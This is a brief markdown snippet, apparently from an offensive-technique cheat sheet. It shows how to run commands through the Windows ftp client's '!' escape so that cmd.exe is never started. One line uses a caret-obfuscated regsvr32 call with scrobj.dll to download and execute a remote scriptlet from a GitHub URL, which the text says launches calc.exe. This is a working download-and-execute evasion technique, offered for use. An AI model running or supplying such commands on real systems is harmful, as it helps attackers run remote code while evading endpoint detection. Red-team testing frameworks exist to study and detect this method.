 ### FTP fun

Using native FTP to execute commands without using the cmd.exe process

```
#this excutes dir and lists all directores and saves to C:\Users\<username>\filelist.txt
ftp> !dir /ad > filelist.txt

#this load the the github script and excutes calc.exe
ftp> !r^e^g^s^v^r^3^2.e^x^e /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1085/T1085.sct scrobj.dll
```



